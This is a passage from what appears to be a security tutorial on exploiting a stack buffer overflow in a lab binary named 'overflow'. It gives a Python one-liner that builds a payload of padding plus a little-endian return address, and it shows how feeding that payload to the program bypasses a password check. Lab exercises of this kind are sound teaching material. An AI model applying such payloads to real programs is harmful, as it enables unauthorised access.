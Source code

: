 For convenience, we can use the following command in the terminal to generate 32 characters into a file named _attack.txt_.

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"C"*28 + b"\xea\x84\x04\x08") ' > attack.txt
```

Note that we input the bytes of **0x080484ea** inversely because our platform is based on a little-endian Intel processor. _**(Hint: also change the address, maybe&#x20;**<mark style="color:green;">**0x0804925b**</mark>**? (i.e.**_ `\x5b\x92\x04\x08`_**)).**_

With everything ready, we now can enter `./overflow < attack.txt` and gain privileges without knowing the real password.

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption><p>hacking done!</p></figcaption></figure>
